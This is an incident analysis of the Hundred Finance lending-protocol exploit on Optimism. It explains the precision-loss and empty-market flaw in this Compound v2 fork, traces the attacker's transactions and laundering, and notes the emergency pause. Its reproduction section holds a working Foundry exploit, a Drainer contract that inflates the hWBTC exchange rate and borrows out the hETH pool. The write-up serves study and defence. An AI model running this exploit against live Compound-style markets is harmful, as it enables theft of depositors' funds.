

# 230415-HundredFinance

## AttackTx

Analyzing the [attack transaction](https://phalcon.blocksec.com/explorer/tx/optimism/0x6e9ebcdebbabda04fa9f2e3bc21ea8b2e4fb4bf4f4670cb8483e2f0b2604f451) using Phalcon.


The fund flow of this attack transaction is highly complex. From the Balance Changes, it's evident that the attacker ultimately obtained a significant amount of Ether, as well as DAI, USDT, and other tokens related to the Hundred Finance protocol. Additionally, the attacker borrowed WBTC from Aave to carry out the attack.

### Invocation Flow

Let's analyze the invocation flow.


The attackContract initially borrowed 500 WBTC from Aave.


Then, approximately 15 hWBTC were redeemed for about 0.3 WBTC.


Afterward, all WBTC was transferred to a specified address, and a contract was created at that address using the CREATE2 instruction.


In the constructor of the new contract, ETHDrain, first, `approve` was given to the hWBTC contract for WBTC. Then, 4e8 WBTC was passed into the `mint` function, resulting in 20,000,000,000 hWBTC. Subsequently, the `redeem` function was called, exchanging 19,999,999,998 hWBTC for 4 WBTC.

There seems to be an issue here, as it appears that 2 hWBTC were obtained out of nowhere.


However, upon closer inspection, it's revealed that the exchangeRate during `mint` was 20,000,000,000,000,000, whereas during `redeem`, it was 20,000,000,050,000,000. This means that the previous `mint` altered the rate, allowing the same hWBTC to redeem more WBTC. It's also noticeable that the quantity redeemable here is slightly larger than 400,000,000. However, the final result is truncated after `truncate`, indicating a **precision loss** issue.


Subsequently, ETHDrain transferred slightly over 500 WBTC to the hWBTC contract, then `enterMarkets(hWBTC)`, and borrowed approximately 1021 Ether.


Later, the `redeemUnderlying` function was called, exchanging 1 hWBTC for almost all of the WBTC previously transferred to the hWBTC contract. These WBTC were then returned to the original attackContract.


Also, it's noted that due to **precision loss**, when calculating the amount of hWBTC required to redeem slightly over 500 WBTC, what was supposed to be repayed as 1.999999 hWBTC became 1 in reality.


Then the attackContract called `liquidateBorrow` to liquidate the ETHDrain contract, reclaiming the remaining 1 hWBTC with a small amount of Ether.


Finally, 1 hWBTC was exchanged for 2 WBTC.

Clearly, through various operations in the ETHDrain contract, the attacker managed to obtain a substantial amount of Ether from the hETH contract.


The subsequent flow follows a similar pattern, involving different tokens. Eventually, the attacker drained tokens from various lending pools in the Hundred Finance protocol.

## Vulnerability

To understand the vulnerability and the profit-making mechanism of the attack, it is necessary to first have an understanding of the [Hundred Finance](https://docs.hundred.finance/) protocol, specifically the original protocol Compound v2. Due to the amount of publicly available information, a detailed introduction will not be provided here. You can refer to the [official documentation](https://docs.compound.finance/v2/), [whitepaper](https://compound.finance/documents/Compound.Whitepaper.pdf), and [source code](https://github.com/compound-finance/compound-protocol/) for learning.

### Precision Loss / Rounding Error

It is obvious from the analysis of the attack transaction that there is a problem of precision loss in the protocol's operations. In fact, this was first pointed out in the [audit]((https://blog.openzeppelin.com/compound-audit)) by OpenZeppelin, which suggested that this might cause (very small) losses to users, where users would receive slightly less tokens than the calculated result during related operations. This is the case of precision loss that occurs in the `redeem` of the ETHDrain contract after `mint`.

However, through the attack transaction, we can see that this precision loss can also enable users to profit, i.e., in the case of paying the same amount of cTokens, they can get more Underlying Tokens. This is the case of precision loss that occurs in the `redeemUnderlying` call of the ETHDrain contract.

Below is the calculation of the additional amount of Underlying Tokens that can be obtained through this precision loss.

For a certain lending pool, assuming there is currently:

$$
\begin{align}
C =  underlyingBalance + totalBorrowBalance - reserves \tag{1} \\  
T = cTokenSupply \tag{2} \\
exchangeRate = \frac{C}{T} \tag{3} 
\end{align}
$$

And the user owns a cToken amount of $kT (0 \leq k \leq 1)$. Then, the accurate amount of Underlying Tokens that can be exchanged for is:
$$amountAccurate = kT \times exchangeRate = kC \tag{4}$$

While if utilizing the precision loss, the maximum amount of Underlying Tokens that can be obtained is approximately:
$$amountMax \approx (kT+1) \times exchangeRate = kC + \frac{C}{T} \tag{5} $$

Meaning the additional amount of Underlying Tokens that can be obtained is $exchangeRate = \frac{C}{T}$.

Taking an example from a normal `redeemUnderlying` [transaction](https://etherscan.io/tx/0x5a1b6484ed92777fa6f7a7d63c0ba032b81443835e2c3e89520899a2a0f3f6c5) in Compound v2 on the Ethereum mainnet. In the original transaction, 37.33289964 cETH was redeemed for 0.75 Ether.

``` solidity
function testRedeemPrecisionLoss() external {
    // https://etherscan.io/tx/0x5a1b6484ed92777fa6f7a7d63c0ba032b81443835e2c3e89520899a2a0f3f6c5
    // 37.33289964 cETH -> 0.75 Ether
    address sender = 0x8e445422BaA49C7b98645E918577DE7D48280384;
    ICEther cETH = ICEther(0x4Ddc2D193948926D02f9B1fE9e1daa0718270ED5);
    vm.startPrank(sender);
    vm.createSelectFork("eth", 18328594);
    vm.roll(18328595);
    cETH.accrueInterest();

    uint256 exchangeRate = cETH.exchangeRateStored();
    emit log_named_uint("cETH exchangeRate", exchangeRate);

    uint256 cETHAmountIn = 3733289964;
    uint256 redeemAmountAccurate = cETHAmountIn * exchangeRate / 1e18;
    uint256 precisionLossProfit = (cETHAmountIn + 1) * exchangeRate / 1e18;
    console.log("redeemAmountAccurate:", redeemAmountAccurate);
    console.log("precisionLossProfit:", precisionLossProfit);
    cETH.redeemUnderlying(precisionLossProfit);
    // 37.33289964 cETH -> 0.750000000126279633 Ether
    vm.stopPrank();
}
```

Through the above calculation, it can be found that, according to the exchange rate at that time, 3733289964 cETH should only be exchanged for 0.749999999925384442 ETH, but due to precision loss, it can actually be exchanged for up to 0.750000000126279633 ETH.

### Empty Market

From the above analysis, it can be seen that although precision loss can expand the amount of Underlying Tokens that can be redeemed by a certain amount of fixed cTokens, under normal circumstances, due to the small `exchangeRate`, the additional amount that can be obtained is limited even for high-value WBTC with only 8 decimals.

Therefore, according to the calculation method of `exchangeRate`, directly transferring Underlying Tokens into cToken is an obvious means to expand the rate and thereby increase the profit from precision loss. (Note that, without considering `accrueInterest`, regular `mint` or `redeem` will not change the rate.)

Suppose the amount of Underlying Tokens transferred by the attacker to the cToken contract is $I$, then at this point:

$$exchangeRate1 = \frac{C+I}{T} \tag{6}$$

The amount of Underlying Tokens that can be redeemed using precision loss is:

$$ amountOut =  (kT+1) \times exchangeRate1 = k(C+I) + \frac{(C+I)}{T} \tag{7}$$

And before the transfer, the original amount of Underlying Tokens is:

$$ amountIn = I + amountMax = I + kC + \frac{C}{T} \tag{8}$$

To make a profit, it must satisfy:

$$ amountOut > amountIn \tag{9} $$

Combining $(7),(8), (9)$, we can conclude that profit requires:

$$I \times (k + \frac{1}{T} - 1) > 0 \tag{10}$$

So, along with $I>0$, it must satisfy:

$$k + \frac{1}{T} - 1 > 0 \tag{11}$$

Obviously, when $k=1$, this condition is met. And when $k\neq 1$, the larger $T$ is, the larger $k$ needs to be.

In other words, when the attacker owns all the cTokens, they can meet the attack conditions. Otherwise, it depends on the current `cTokenSupply`, the more the totalSupply, the more share the attacker is required to occupy.

Therefore, it is obvious that when empty markets exist, this method of transferring a large amount of Underlying Tokens can be used to manipulate the `exchangeRate` and profit from precision loss.

Specifically, when an empty market is found, the attacker can `mint` cTokens, making $k=1$, and the additional profit the attacker can obtain using precision loss is:

$$profit = amountOut - amountIn = \frac{I}{T} \tag{12}$$

So, to gain more profit, the amount of funds $I$ transferred in should be larger, and the quantity of cTokens obtained after `mint`, i.e., $T$, should be smaller.

---

Now let's analyze the [hWBTC contract](https://optimistic.etherscan.io/address/0x35594e4992dfefcb0c20ec487d7af22a30bdec60) attacked.

``` solidity
function testEmpty() external {
    vm.createSelectFork("optimism", 89017326);
    uint256 totalSupply = hWBTC.totalSupply();
    console.log("empty market?", totalSupply == 0);
}
```

Querying the contract state before the attacker's action reveals that the `cTotalSupply` of this hWBTC contract is 0, indicating that the state complies with empty markets, thus enabling the attacker to launch the attack using precision loss.

## Exploit

### Reproduce

Based on the previous analysis, combined with the attack transaction, the following script can be used for attack. Here, we only focus on attacking hETH as an example.


``` solidity
function testExploit() external {
    uint256 blockNumber = 89017326; // before the attacker's first mint
    vm.createSelectFork("optimism", blockNumber);
    deal(address(WBTC), address(this), 800*1e8);
    deal(address(this), 0);  // https://twitter.com/TheBlockChainer/status/1727309850810392771
    console.log("before attack");
    emit log_named_decimal_uint("ETH balance", address(this).balance, 18);
    emit log_named_decimal_uint("WBTC balance", WBTC.balanceOf(address(this)), WBTC.decimals());

    uint256 _salt = uint256(keccak256(abi.encodePacked(uint256(0))));
    bytes memory bytecode = type(Drainer).creationCode;
    bytes memory contractBytecode = abi.encodePacked(bytecode, abi.encode(address(hEther)));
    address DrainAddress = address(uint160(uint256(keccak256(abi.encodePacked(bytes1(0xff), address(this), _salt, keccak256(contractBytecode))))));

    WBTC.transfer(DrainAddress, WBTC.balanceOf(address(this)));
    Drainer drainer = new Drainer{salt: bytes32(_salt)}(hEther);  // drain the hETH pool

    uint256 exchangeRate = hWBTC.exchangeRateStored();
    uint256 liquidationIncentiveMantissa = 1080000000000000000;
    uint256 priceBorrowedMantissa = priceOracle.getUnderlyingPrice(address(hEther));
    uint256 priceCollateralMantissa = priceOracle.getUnderlyingPrice(address(hWBTC));
    uint256 hTokenAmount = 1;
    uint256 liquidateAmount = 1e18/(priceBorrowedMantissa * liquidationIncentiveMantissa / (exchangeRate * hTokenAmount * priceCollateralMantissa / 1e18)) + 1;
    hEther.liquidateBorrow{value: liquidateAmount}(address(drainer), address(hWBTC)); // liquidate to get the 1 hWBTC
    hWBTC.redeem(1); // redeem to recover the empty market
    
    console.log("after attack");
    emit log_named_decimal_uint("ETH balance", address(this).balance, 18);
    emit log_named_decimal_uint("WBTC balance", WBTC.balanceOf(address(this)), WBTC.decimals());
}

contract Drainer is Test {
    ICErc20 WBTC = ICErc20(0x68f180fcCe6836688e9084f035309E29Bf0A2095);
    ICErc20 hWBTC = ICErc20(0x35594E4992DFefcB0C20EC487d7af22a30bDec60);
    IComptroller comptroller = IComptroller(0x5a5755E1916F547D04eF43176d4cbe0de4503d5d);
    ICEther hEther;

    constructor(ICEther token) payable {
        hEther = token;
        WBTC.approve(address(hWBTC), type(uint256).max);
        hWBTC.mint(1 * 1e8);
        // hWBTC.redeem(hWBTC.totalSupply() - 1);
        hWBTC.redeem(hWBTC.totalSupply() - 2);  // get 2 hWBTC, the totalSupply is 2
    
        uint256 donationAmount = WBTC.balanceOf(address(this));
        WBTC.transfer(address(hWBTC), donationAmount);
        console.log("donationAmount:", donationAmount);

        address[] memory cTokens = new address[](1);
        cTokens[0] = address(hWBTC);
        comptroller.enterMarkets(cTokens);

        uint256 cWBTCAmountIn = 1;
        uint256 exchangeRate = hWBTC.exchangeRateStored();
        uint256 precisionLossMaxAmount = (cWBTCAmountIn + 1) * exchangeRate / 1e18;
        console.log("precisionLossMaxAmount:", precisionLossMaxAmount);

        uint256 borrowAmount = hEther.getCash();
        hEther.borrow(borrowAmount); // using cWBTC as collateral to lend ETH
        payable(address(msg.sender)).transfer(address(this).balance);

        uint256 redeemAmount;
        if (precisionLossMaxAmount > donationAmount) {
            redeemAmount = donationAmount;
        } else {
            redeemAmount = precisionLossMaxAmount;
        }
        console.log("redeemAmount:", redeemAmount);
        hWBTC.redeemUnderlying(redeemAmount);  // due to precision loss, only 1hWBTC was used to redeem all WBTCs
        
        WBTC.transfer(msg.sender, WBTC.balanceOf(address(this)));
    }
}
```

It should be noted that since hWBTC is an empty market and does not hold much WBTC itself, utilizing precision loss alone cannot directly profit from the hWBTC contract. Therefore, a different approach is needed. The attacker can first `mint` a small amount of hWBTC, then transfer a large amount of WBTC to the hWBTC contract. At this point, the exchangeRate is extremely high, so the hWBTC can be used as collateral to borrow tokens from other pools, thus emptying them. Later, due to precision loss, the attacker can use `redeem` to withdraw the previously transferred WBTC without using all the hWBTC, while bypassing the liquidity check on the account during `redeem`. Namely, the portion of precision loss is used as collateral to borrow tokens from other pools, thus profiting.

Specifically, according to the previous analysis, to maximize the profit from precision loss, the smaller the amount of hWBTC obtained after `mint`, i.e., the smaller the totalSupply of hWBTC, the better. One can `mint` first and then `redeem` to retain a small amount of hWBTC. In reality, the attacker obtained 2 hWBTC, not the minimum 1 hWBTC. Observing the code of newer versions of the Compound v2, it can be found that the `redeem` function will call the following `redeemVerify` function at the end, which can prevent the attacker from passing in 0 hWBTC when using precision loss. However, in the version of the contract used by Hundred Finance, no such verification exists. Thus, in reality, it is possible to `mint` only the minimum 1 hWBTC for the attack, achieving greater profit (although there are not so many funds in other pools).

``` solidity
function redeemVerify(address cToken, address redeemer, uint redeemAmount, uint redeemTokens) external {
    // Shh - currently unused
    cToken;
    redeemer;

    // Require tokens is zero or amount is also zero
    if (redeemTokens == 0 && redeemAmount > 0) {
        revert("redeemTokens zero");
    }
}
```

After obtaining a small amount of hWBTC, a large amount of WBTC is transferred to the hWBTC contract to raise the exchangeRate, and then all ETH is borrowed from the hEther contract. Finally, using precision loss, all previously transferred WBTC can be redeemed, while bypassing the liquidity checks. (That is, the `Comptroller` contract's `getHypotheticalAccountLiquidityInternal` function only considers the attacker `redeem` out 1 hWBTC worth of WBTC, but in reality, it is close to 2 hWBTC worth of WBTC.)

Finally, the Drainer contract created is liquidated by `liquidateBorrow`, and then `redeem`, causing the hWBTC contract to become an empty market again, thus continuing to attack other token markets using hWBTC. The specific amount of ETH needed to liquidate 1 hWBTC can be deduced by the `liquidateCalculateSeizeTokens` function of the `Comptroller` contract, and also due to precision loss, the final amount needs to be increased by 1.

### Attack Flow

Below is an analysis of the entire attack process of the [attacker](https://optimistic.etherscan.io/address/0x155da45d374a286d383839b1ef27567a15e67528).


The attacker first transfers funds from the L1 mainnet to Optimism, totaling 4.1 ETH and 0.31 WBTC.


Then, using 0.3 WBTC, mints about 0.15 hWBTC.



The following 8 transactions are attacks on two sets of Hundred Finance protocols (not studied, maybe one old and one new?). After creating the attack contract, the attacker first transfers the previously obtained hWBTC to two contracts (one of which is actually useless). Then two calls are made, the first to launch the attack and the second to withdraw the profit.


Then, Multichain and Fraxferry are used to send USDC, USDT, DAI, WBTC, ETH, and FRAX back to the Ethereum mainnet.


On the [mainnet address](https://etherscan.io/address/0x155da45d374a286d383839b1ef27567a15e67528), funds were first obtained from Tornado Cash on April 11.


After the attack was completed, the attacker exchanged USDT and USDC, which are subject to blacklist mechanisms, for other tokens through exchanges or by adding liquidity.

As of the writing of this article, the attacker has not taken any further action, and all profits are still in the original address.

## Misc

### Frontrunning Protection

According to the previous analysis, the attacker first `mint` a small amount of hWBTC before the AttackTx and then `redeem` it back to WBTC in the AttackTx, using it along with the 500 WBTC borrowed for the attack.

This way, the attacker already occupied all the shares of the WBTC market before the actual attack, and the `redeem` calls involved, as well as the actual use of more WBTC than borrowed, can prevent frontrunning.

### Patch

``` solidity
function testPatch() external {
    uint256 blockNumber = 90843467;
    vm.createSelectFork("optimism", blockNumber);
    console.log("Mint Pause:", comptroller.mintGuardianPaused(address(hWBTC)));
}
```

Approximately 4 hours after the attack occurred, the project team initiated a [transaction](https://optimistic.etherscan.io/tx/0xee3d2082ffd137f5faa4f57f9c14f994a769c92a8db0db4bbb0f8fb51369763f) to execute an emergency pause, which prohibited the minting of tokens related to the protocol, preventing further exploitation of the vulnerability.